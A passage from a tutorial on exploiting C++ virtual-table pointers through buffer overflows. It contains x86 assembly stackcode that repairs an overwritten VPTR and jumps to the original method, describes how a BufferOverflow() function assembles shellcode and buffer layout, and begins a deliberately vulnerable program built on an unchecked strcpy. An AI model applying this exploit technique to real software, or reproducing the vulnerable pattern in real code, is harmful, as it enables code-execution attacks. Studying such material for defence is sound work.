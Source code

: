 ```
stosl  %eax,%es:(%edi)                  //correct the VPTR to point to the
                                        // original VTABLE
movb   $0x29,%al                        //AL=$LastByte (byte following the
                                        // VPTR in memory)
stosb  %al,%es:(%edi)                   //we correct this byte
movl   0xc(%ebx),%eax//EAX=*VTABLEAddress+IAddress*4
                                        // (EAX take the address of the
                                        // original method in the original
                                        // VTABLE).
popf
popl   %ebx
popl   %ecx
popl   %edx
popl   %esi
popl   %edi                             //restore flags and registers
movl   %ebp,%esp
popl   %ebp                             //destroy the stack frame
jmp    *%eax                            //run the original method
```


We now must code a BufferOverflow() function that is going to "compile" us the 
shellcode and the stackcode, and to create the structure of our buffer.
Here are parameters that we should pass to this function:
- BufferAddress = address of our buffer in memory.
- IAddress = index in the VTABLE of the 1st method that will be executed.
- VPTROffset = offset in our buffer of the VPTR to overwrite.
- AddThis = value that will be added to the This pointer on the stack, because 
of the "strange handling".
- VTABLEAddress = address of the original VTABLE of our class (coded in the 
executable).
- *NewBuffer = a pointer to the new chain that we want to place in our buffer 
to normally continue the program.
- LastByte = the original byte following the VPTR in memory, that is
 overwritten at the time of the copy of our buffer in the original buffer,
 because of the 00h.

Here is the resulting code of the program (bo4.cpp):


```c++
#include <stdio.h>
#include <string.h>
#include <malloc.h>

#define BUFFERSIZE 256

class BaseClass { 
private:
 char Buffer[BUFFERSIZE];
public:
 void SetBuffer(char *String) {
  strcpy(Buffer,String);
 }
 virtual void `PrintBuffer()` {
  printf("%s\n",Buffer);
 }
};

class MyClass1:public BaseClass {
public:
 void `PrintBuffer()` {
  printf("MyClass1: ");
  BaseClass::`PrintBuffer()`;
 }
```